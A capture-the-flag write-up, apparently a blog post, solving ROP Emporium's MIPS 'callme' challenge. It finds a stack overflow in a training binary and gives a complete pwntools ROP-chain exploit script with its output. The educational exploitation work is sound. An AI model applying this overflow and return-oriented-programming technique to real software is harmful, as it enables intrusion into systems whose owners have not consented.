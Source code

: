 ```yaml
---
layout: post
author: playoff-rondo
title:  "ROPemporium: CallMe MIPS"
date:   2020-10-10 18:01:37 -0500
categories: CTF-writeup
ctf-category: PWN
tags: playoff-rondo
---
```


# callme MIPS
## Triage
![](https://i.imgur.com/4AAsy1E.png)

Chain calls to multiple imported methods with specific arguments and see how the differences between 64 & 32 bit calling conventions affect your ROP chain.
### Disassembly
main function calls vulnerable call pwnme

![](https://i.imgur.com/HWccWbN.png)

pwnme function 

![](https://i.imgur.com/FvCln4L.png)

## Eumulation
Because this binary is an MIPS archetecture, to be able to run the binary we need to emulate it somehow.

I will be using [qemu](https://www.qemu.org/), specifically qemu-mipsel

Install require libraries
`sudo apt install gcc-mipsel-linux-gnu`

Run the binary 
`qemu-mipsel -L /usr/mipsel-linux-gnu ./callme_mipsel `


## Vulnerability
In the pwnme function, 0x200 bytes are read into the user_input buff but the user_input buff is on the stack -0x28 (-40) bytes off from the return address.

If we supply 40 bytes, the last 4 bytes will overflow the return address and we gain control of the program counter.

Confirming the vulnerability:
```bash
python -c 'print "A"*36+"BBBB"' |qemu-mipsel -strace -L /usr/mipsel-linux-gnu ./callme_mipsel
```
```bash
--- SIGSEGV {si_signo=SIGSEGV, si_code=1, si_addr=0x42424242} ---
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
[1]    3278807 done                              python -c 'print "A"*36+"BBBB"' | 
       3278808 segmentation fault (core dumped)  qemu-mipsel -strace -L /usr/mipsel-linux-gnu ./callme_mipsel
```

## Exploit
Description says:
`To dispose of the need for any RE I'll tell you the following:
You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag.`

In mipsel the way to pass function parameters through registers:
`a0,a1,a2,a3`

We need gadgets that can load the values off the stack and into the correct registers.
Using ROPgadget:
`lw_a0_a1_a2_t9 = p32(0x00400bb0)# : lw $a0, 0x10($sp) ; lw $a1, 0xc($sp) ; lw $a2, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop`


We set the link register to the `pop_r3_pc` gadget to place the next function on the stack into `pc` but we also have a junk register of `r3` so I place 0 in there,

### Script
```python=
from pwn import *

context.binary = elf = ELF("./callme_mipsel")

lw_a0_a1_a2_t9 = p32(0x00400bb0)# : lw $a0, 0x10($sp) ; lw $a1, 0xc($sp) ; lw $a2, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop

payload = "A"*36
payload += lw_a0_a1_a2_t9
payload += p32(0)
payload += p32(elf.sym['callme_one']) # t9
payload += p32(0xd00df00d)	# a2
payload += p32(0xcafebabe)	# a1
payload += p32(0xdeadbeef)	# a0

payload += lw_a0_a1_a2_t9
payload += p32(0)
payload += p32(elf.sym['callme_two']) # t9
payload += p32(0xd00df00d)	# a2
payload += p32(0xcafebabe)	# a1
payload += p32(0xdeadbeef)	# a0

payload += lw_a0_a1_a2_t9
payload += p32(0)
payload += p32(elf.sym['callme_three']) # t9
payload += p32(0xd00df00d)	# a2
payload += p32(0xcafebabe)	# a1
payload += p32(0xdeadbeef)	# a0

io = process("./callme_mipsel",env={"QEMU_LD_PREFIX":"/usr/mipsel-linux-gnu"})
#io =gdb.debug("./callme_mipsel",env={"QEMU_LD_PREFIX":"/usr/mipsel-linux-gnu"})
io.sendline(payload)
io.interactive()
```
### Result
```bash
[*] '/home/chris/ctfs/ropemporium/callme/mips/callme_mipsel'
    Arch:     mips-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  '.'
[+] Starting local process './callme_mipsel': pid 3281191
[*] Switching to interactive mode
callme by ROP Emporium
MIPS

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$  
```
